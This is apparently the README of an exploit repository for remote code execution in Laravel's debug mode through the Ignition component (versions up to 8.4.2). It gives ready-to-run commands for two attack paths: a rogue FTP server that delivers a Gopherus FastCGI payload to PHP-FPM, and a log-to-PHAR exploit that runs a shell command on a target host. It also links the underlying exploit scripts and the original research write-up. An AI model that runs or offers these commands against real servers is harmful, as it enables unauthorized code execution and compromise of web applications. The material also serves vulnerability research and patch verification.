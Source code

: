 # laravel-debug-rce
laravel debug rce caused by Ignition  

## Talking to PHP-FPM using FTP
usage:   
generate your fastcgi payload [Gopherus](https://github.com/tarunkant/Gopherus/blob/master/scripts/FastCGI.py)  

python3 evilftp.py -t http://localhost:8000 -i 127.0.0.1 -f payload  
![](./resource/usage1.png)  


## Log file to PHAR
Already exists [khanhnv-2091/laravel-8.4.2-rce](https://github.com/khanhnv-2091/laravel-8.4.2-rce/blob/main/exploit.py)  
python3 exploit.py http://pwnme.me:8000 ../storage/logs/laravel.log 'uname -a'


## References
[Laravel <= v8.4.2 debug mode RCE](https://www.ambionics.io/blog/laravel-debug-rce)
